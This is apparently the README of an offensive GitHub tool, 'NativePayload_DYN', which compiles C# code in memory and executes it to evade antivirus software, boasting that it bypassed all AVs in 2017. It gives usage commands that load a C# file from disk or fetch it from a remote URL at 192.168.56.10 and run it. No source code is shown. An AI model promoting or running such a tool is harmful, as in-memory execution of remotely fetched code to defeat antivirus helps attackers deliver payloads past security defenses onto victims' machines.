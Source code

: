# NativePayload_DYN

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in 2017 and Published in 2023 ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    NativePayload_DYN.exe -f "class1.cs"
    NativePayload_DYN.exe -w "http://192.168.56.10/class1.cs"
